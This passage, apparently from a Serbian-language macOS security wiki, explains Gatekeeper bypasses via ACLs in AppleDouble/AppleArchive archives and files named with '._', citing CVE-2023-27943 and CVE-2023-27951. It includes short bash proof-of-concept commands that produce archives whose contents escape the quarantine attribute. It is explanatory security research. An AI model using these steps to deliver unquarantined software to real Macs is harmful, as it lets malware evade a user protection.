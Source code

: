 Osim toga, **AppleDouble** format datoteke kopira datoteku zajedno sa njenim ACE-ovima.

U [**izvornom kodu**](https://opensource.apple.com/source/Libc/Libc-391/darwin/copyfile.c.auto.html) je moguće videti da se ACL tekstualna reprezentacija koja je smeštena unutar xattr-a nazvanog **`com.apple.acl.text`** će biti postavljena kao ACL u dekompresovanoj datoteci. Dakle, ako ste kompresovali aplikaciju u zip datoteku sa **AppleDouble** formatom datoteke sa ACL-om koji sprečava pisanje drugih xattr-a na nju... karantinski xattr nije postavljen u aplikaciji:

{% code overflow="wrap" %}
```bash
chmod +a "everyone deny write,writeattr,writeextattr" /tmp/test
ditto -c -k test test.zip
python3 -m http.server
# Download the zip from the browser and decompress it, the file should be without a quarantine xattr
```
{% endcode %}

Proverite [**originalni izveštaj**](https://www.microsoft.com/en-us/security/blog/2022/12/19/gatekeepers-achilles-heel-unearthing-a-macos-vulnerability/) za više informacija.

Imajte na umu da se ovo takođe može iskoristiti pomoću AppleArchives:

```bash
mkdir app
touch app/test
chmod +a "everyone deny write,writeattr,writeextattr" app/test
aa archive -d app -o test.aar
```

#### [CVE-2023-27943](https://blog.f-secure.com/discovery-of-gatekeeper-bypass-cve-2023-27943/)

Otkriveno je da **Google Chrome nije postavljao atribut karantina** na preuzete datoteke zbog nekih internih problema u macOS-u.

#### [CVE-2023-27951](https://redcanary.com/blog/gatekeeper-bypass-vulnerabilities/)

Formati datoteka AppleDouble čuvaju atribute datoteke u posebnoj datoteci koja počinje sa `._`, što pomaže u kopiranju atributa datoteke **između macOS mašina**. Međutim, primijećeno je da nakon dekompresije AppleDouble datoteke, datoteka koja počinje sa `._` **nije dobila atribut karantina**.

{% code overflow="wrap" %}
```bash
mkdir test
echo a > test/a
echo b > test/b
echo ._a > test/._a
aa archive -d test/ -o test.aar

# If you downloaded the resulting test.aar and decompress it, the file test/._a won't have a quarantitne attribute
```
{% endcode %}
